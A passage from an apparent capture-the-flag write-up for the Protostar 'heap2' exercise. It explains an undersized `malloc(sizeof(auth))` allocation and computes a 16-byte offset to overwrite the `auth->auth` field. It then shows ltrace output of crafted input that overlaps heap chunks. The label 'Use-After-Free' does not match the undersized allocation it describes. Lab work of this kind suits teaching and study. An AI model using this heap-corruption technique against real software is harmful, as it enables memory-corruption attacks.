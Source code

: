 This is strange, the `service` variable is allocated at `0x0804c018`, but
obviously we cannot have the following heap chucks:

{% codeblock %}
(08) 0x0804c000: auth-control
(32) 0x0804c008: auth-name
(04) 0x0804c028: auth-auth

(08) 0x0804c010: service-control
(xx) 0x0804c018: service
{% endcodeblock %}

There should be `sizeof(struct auth) = 32+4` instead of `sizeof(auth) = 4` and in
our buggy code we allocated only four bytes of memory:

{% codeblock %}
auth = malloc(sizeof(auth));
memset(auth, 0, sizeof(auth));
{% endcodeblock %}

This is very simple `Use-After-Free` vulnerability. We need to write something
to `auth-auth`, after `0x0804c028-0x0804c018 = 16` bytes.

{% codeblock %}
user@protostar:~$ ltrace /opt/protostar/bin/heap2
__libc_start_main(0x8048934, 1, 0xbffff864, 0x804acc0, 0x804acb0 <unfinished ...>
printf("[ auth = %p, service = %p ]\n", (nil), (nil)[ auth = (nil), service = (nil) ]
)                                                                         = 34
fgets(auth A
"auth A\n", 128, 0xb7fd8420)                                                                                            = 0xbffff730
strncmp("auth A\n", "auth ", 5)                                                                                               = 0
sysconf(30, 0, 0xb7fe1b28, 1, 0)                                                                                              = 4096
sbrk(4096)                                                                                                                    = 0x0804c000
sbrk(0)                                                                                                                       = 0x0804d000
memset(0x0804c008, '\000', 4)                                                                                                 = 0x0804c008
strlen("A\n")                                                                                                                 = 2
strcpy(0x0804c008, "A\n")                                                                                                     = 0x0804c008
strncmp("auth A\n", "reset", 5)                                                                                               = -17
strncmp("auth A\n", "service", 6)                                                                                             = -18
strncmp("auth A\n", "login", 5)                                                                                               = -11
printf("[ auth = %p, service = %p ]\n", 0x804c008, (nil)[ auth = 0x804c008, service = (nil) ]
)                                                                     = 38
fgets(service AAAAAAAAAAAAAAA
"service AAAAAAAAAAAAAAA\n", 128, 0xb7fd8420)                                                                           = 0xbffff730
strncmp("service AAAAAAAAAAAAAAA\n", "auth ", 5)                                                                              = 18
strncmp("service AAAAAAAAAAAAAAA\n", "reset", 5)                                                                              = 1
strncmp("service AAAAAAAAAAAAAAA\n", "service", 6)                                                                            = 0
strdup(" AAAAAAAAAAAAAAA\n")                                                                                                  = 0x0804c018
strncmp("service AAAAAAAAAAAAAAA\n", "login", 5)                                                                              = 7